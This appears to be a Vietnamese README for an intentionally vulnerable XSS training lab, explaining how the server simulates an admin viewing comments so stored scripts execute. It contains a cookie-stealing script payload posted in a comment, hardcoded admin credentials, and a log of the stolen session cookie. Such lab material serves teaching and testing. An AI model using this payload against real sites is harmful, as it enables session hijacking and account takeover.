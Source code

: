 # 🤖 Auto-Test Feature - XSS Session Hijacking

## Tính Năng Tự Động Test

Sau khi post comment, server sẽ **tự động giả lập admin xem comment sau 5 giây** để test XSS payload.

## Cách Hoạt Động

### 1. User Post Comment

```bash
POST /api/comment
Cookie: auth=user1:password1
Body: {"comment": "<script>fetch('/api/steal?cookie='+document.cookie)</script>"}
```

### 2. Server Response

```json
{
    "success": true,
    "commentId": 10
}
```

### 3. Auto-Test Trigger (sau 5 giây)

Server tự động thực hiện:

```javascript
setTimeout(() => {
    // Giả lập admin request trang
    http.request({
        hostname: "localhost",
        port: 3000,
        path: "/lab/auth",
        headers: {
            Cookie: "auth=admin:admin123",
            "User-Agent": "Auto-Test-Bot (Admin Simulation)",
        },
    });
}, 5000);
```

### 4. Server Console Log

```
⏰ [AUTO-TEST] Admin sẽ xem comment sau 5 giây...
👤 [AUTO-TEST] Admin đang xem comment...
✅ [AUTO-TEST] Admin đã xem trang (status: 200)
🚨 [AUTO-TEST] XSS payload detected! Script sẽ thực thi trên browser của admin.
🚨 STOLEN COOKIE RECEIVED:
Timestamp: 2025-10-16T...
Cookie: auth=admin:admin123
IP: ::1
User-Agent: Auto-Test-Bot (Admin Simulation)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

